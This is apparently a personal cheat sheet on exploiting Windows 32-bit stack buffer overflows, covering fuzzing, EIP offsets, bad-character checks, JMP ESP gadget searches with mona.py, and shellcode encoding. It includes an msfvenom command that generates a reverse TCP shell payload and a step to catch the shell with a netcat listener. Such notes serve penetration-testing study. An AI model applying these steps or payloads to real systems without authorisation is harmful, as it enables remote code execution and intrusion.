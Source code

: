 # Stack Buffer Overflow

## Basic Assembly

* POP -> Pops the top of the stack into the EIP register.

## The General Process

1. Find all inputs to the application.
2. Fuzz each input with garbage data in a loop that incrementally sends more bytes to get the application to crash.
3. Find the offset where the application crashes. Do this by creating a pattern with either pwntools or metasploit's `pattern_create`.
4. Copy the value from EIP which indicates where the application crashed and calculate the offset with either pwntools or metasploit's `pattern_offset`.
5. Take control over EIP by using 4 bytes at the offset returned by `pattern_offset`.
6. See if you can get more space for your shellcode by adding more bytes to your buffer and reproducing the same crash. The more space you have for your shellcode, the better off you will be.
7. Check for bad characters from `0x00` - `0xff`. You can right-click on ESP and select *Follow in Dump* to show the input buffer of hex characters in memory. Check how buffer of bad characters got modified.
8. Encode your shellcode so that it doesn't contain any bad characters.
9. Search for a JMP ESP gadget. This gadget must comply with the following criteria:
  a. It does not come from a library compiled with ASLR support.
  b. The address does not contain any bad characters.
  c. ADVANCED TIP: If the module was compiled with DEP support, the JMP ESP needs to be located in the .text code segment of the module with both Read (R) and Executable (E) permissions.
10. You will need the opcode for the gadget. You should be able to achieve so with pwntools or metasploit's `nasm_shell`.
11. Use the address of the new found gadget to redirect execution back into your shellcode. Generally speaking, this works by JMP'ing ESP to your shellcode since you previously overflowed ESP with your shellcode.
  a. Make sure that the EIP address is in little endian so that the CPU can interpret the opcode correctly!
12. Generate the shellcode with msfvenom.
  a. Certain shellcode encodings like shikata_ga_nai require some NOP padding to function because they require some additional space to extract itself, so don't forget to add the NOP sled!
  b. The default exit behavior of msfvenom shellcode is ExitProcess. If you want the process to stay alive after you lose your shell, you want to set the exit function to ExitThread.
13. Setup a netcat listener and pwn!

## Starting windows services

```bat
services.msc
```

## Bad Characters

```python
badchars = (b"\x00"
b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```

## Using mona.py to detect bad characters

Generate a bytearray

```none
!mona bytearray
!mona compare -f bytearray.txt -a <address where badcharacter buffer starts>
```

## Create a cyclic pattern

```bash
pwn cyclic 800
```

## Searching for JMP ESP gadgets on Windows

### Show modules

```none
!mona modules
```

### Find opcodes

Find `JMP ESP`

```none
!mona find -s "\xff\xe4" -m "MODULE NAME"
```

## Get assembly code

```none
pwn asm 'jmp esp; jmp eax'
```

## Generating shellcode

**Windows 32 bit reverse tcp shell without bad characters**

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<YOUR IP> LPORT=443 EXITFUNC=thread -f python -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

## Extra

* Debug stepping through polymorphic shellcode seems to interfere with its unraveling. If you hit the `INT` instruction, you are best off hitting `continue` on the debugger to make sure `shikata_ga_nai` decodes itself smoothly decodes itself smoothly.
* Using the binary search theory can help with finding bad characters.


